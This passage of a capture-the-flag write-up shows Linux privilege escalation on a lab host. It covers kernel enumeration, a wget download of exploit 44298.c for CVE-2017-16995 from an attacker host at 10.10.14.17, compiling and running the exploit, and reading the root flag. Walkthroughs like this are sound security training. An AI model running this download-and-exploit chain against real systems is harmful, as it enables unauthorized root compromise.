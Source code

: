 ## Privilege escalation
---
### Enumeration

During enumeration, we discover an outdated Linux kernel. We Google for potential exploits, finding several viable options.

{% highlight shell %}
help@help:~/help$ uname -a                                                                                                                         
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
{% endhighlight %}

The one we are going to use is <mark>CVE-2017-16995</mark> - [44298.c](https://www.exploit-db.com/exploits/44298).

### Exploiting

We transfer the exploit code to our target host.

{% highlight shell %}
help@help:/tmp$ wget http://10.10.14.17:1337/44298.c -O 44298.c
--2025-01-24 14:31:06--  http://10.10.14.17:1337/44298.c
Connecting to 10.10.14.17:1337... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6021 (5.9K) [text/x-csrc]
Saving to: ‘44298.c’

44298.c                                     100%[===========================================================================================>]   5.88K  --.-KB/s    in 0.001s  

2025-01-24 14:31:06 (6.50 MB/s) - ‘44298.c’ saved [6021/6021]
{% endhighlight %}

We compile the exploit and run it.

{% highlight shell %}
help@help:/tmp$ gcc 44298.c -o pwn
help@help:/tmp$ chmod +x pwn
help@help:/tmp$ ./pwn
task_struct = ffff88001ee10e00
uidptr = ffff88003732fcc4
spawning root shell
root@help:/tmp# cat /root/root.txt
d967b8d9e95adb0d27f52c34b608af23
{% endhighlight %}

We obtained root privileges and compromised the web server! :)